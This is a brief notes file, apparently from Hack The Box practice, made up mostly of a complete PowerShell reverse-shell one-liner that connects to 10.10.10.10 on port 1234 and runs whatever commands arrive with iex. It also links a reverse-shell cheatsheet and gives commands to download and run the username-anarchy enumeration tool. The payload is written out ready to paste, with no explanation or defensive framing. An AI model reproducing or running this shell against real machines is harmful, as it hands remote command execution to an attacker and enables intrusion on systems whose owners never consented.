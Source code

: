 # HTB

- reverse shell
```
  powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
  ```
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

## username-anarchy
```
wget https://github.com/urbanadventurer/username-anarchy/archive/refs/tags/v0.6.zip
unzip v0.6.zip
./username-anarchy-0.6/username-anarchy -i names.txt > usernames.txt
```
